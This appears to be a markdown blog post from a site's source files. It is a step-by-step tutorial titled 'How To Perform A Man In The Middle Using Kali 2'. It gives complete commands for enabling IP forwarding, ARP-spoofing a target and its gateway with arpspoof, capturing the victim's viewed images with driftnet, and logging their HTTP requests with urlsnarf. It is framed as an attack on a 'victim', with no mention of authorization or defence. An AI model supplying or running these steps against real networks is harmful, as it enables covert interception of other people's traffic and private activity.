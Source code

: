 ```yaml
---
layout: post
title: "How To Perform A Man In The Middle Using Kali 2"
category: Hacking
description: "Learn how to perform a man in the middle using Kali 2 with arpspoof. Caputure images and urls."
---
```


![Man in the middle](/images/mitm.png)

Today we'll be looking at how to perform a Man In The Middle to capture images and urls by the victim.

Requirements are [Kali 2](https://www.kali.org)

# 1. Open 3 terminals

![Three terminals](/images/step1.png)

# 2. Set up port forwarding

Run this command and if the output is 0 then we need to change it to 1

```Shell
$ cat /proc/sys/net/ipv4/ip_forward
```
<br>

```Shell
$ echo 1 >> /proc/sys/net/ipv4/ip_forward
```

![Step 2](/images/step2.png)

# 3. Run arpspoof

first

```Shell
$ arpspoof -i eth0 targetiphere gatewayiphere
```

![step 3](/images/step3.png)

and then in another terminal

```Shell
$ arpspoof -i eth0 gatewayiphere targetiphere
```

![step 4](/images/step4.png)

# 4. Run driftnet

This will capture images opened by the victim and display them in the black box.

```Shell
$ driftnet -i eth0
```

![step 5](/images/step5.png)

### Bonus: Run urlsnarf to capture http requests

```Shell
$ urlsnarf -i eth0
```
